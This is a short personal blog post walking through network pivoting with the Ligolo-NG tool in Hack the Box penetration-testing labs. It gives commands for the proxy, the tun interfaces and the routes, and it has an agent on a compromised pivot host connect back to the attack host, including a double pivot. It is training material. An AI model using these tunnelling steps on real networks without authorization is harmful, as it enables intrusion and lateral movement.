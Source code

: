 ```yaml
---
layout: post
title: Pivoting for Dumb Dumbs
---
```


Just a quick post for Labor Day.  

Since January I have been working on the Hack the Box Penetration Testing path.  It has been not only educational, but also showed me something that I thought I could not do, I could do.  Penetration Testing is taking the troubleshooting skills I have built over 18 years of IT Experience in the real world and showed me how it can be used to make networks stronger and more secure.

It also has showed me how easy it is to break into a Windows system.  Though I can't say it has justified my switch to Linux because it can be just as bad.  

I have just completed the Pivoting lab and the one tool I have utterly abused is Ligolo-NG.  It made jumping through a network and being able to run my tools from my attack host so, so easy.  If you can run the agent, you can get it back as if you are running a VPN.  Being able to get back to my tooling on the attack host such as NMap or Remmina makes jumping through labs rather easy.  

Probably the biggest challenge I had was making it all work.  With that, to add to the pile of Ligolo-NG walkthroughs that exist on the Internet, below is my own.  

If you are going through CPTS, I recommend the below cheet sheets and guides. Also, take notes and make your own.  

Have fun and 73's 

[CPTS-Checklists](https://github.com/imjustBuck/CPTS-Checklists/tree/main)

[Penetration Testing Handbook](https://github.com/w1j0y/penetration-testing-handbook)

Please note, this is what works for me as of 8/1/2025.  Things may change.  

- https://docs.ligolo.ng/
- https://github.com/Nicocha30/ligolo-ng
- https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16

Its just best to pull the precompiled binaries when you are doing HTB labs.  https://github.com/nicocha30/ligolo-ng/releases

## Setup on the attack box
Setup your tuntaps (need one for each pivot)
`sudo ip tuntap add user zac mode tun ligolo1`
`sudo ip link set ligolo1 up`

Start the proxy:
`sudo ./proxy -selfcert -laddr 0.0.0.0:443`

## On the Pivot Point
Enumerate what networks you need, in my example 172.16.5.0/24 is the network pass the pivot point

Get your agent there (python http with wget works well, scp is another one)

run the agent (assuming attack host is 10.10.14.74):  `./agent -connect 10.10.14.74:443 -ignore-cert`

Add in on your attack box the ip:  `sudo ip route add 172.16.5.0/24 dev ligolo1`

In Ligolo, type session and confirm it connected and select it

Type `tunnel_start --tun ligolo1`

## Double-Pivot
In Ligolo on the attack host, when connected to a pivot point session, you can add a listener by doing `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:443`

Added in on your attackbox the other network (assuming the IP on the other interface is 172.16.6.35) `sudo ip route add 172.16.6.0/24 dev ligolo2`

Start the agent, say the pivot point is 172.16.5.15.  `agent -connect 172.16.5.15:11601 -ignore-cert`

Wait at least a minute for the agent to connect a new session, then use `session` to swap over to it. 

Start the tunnel `tunnel_start --tun ligolo2`




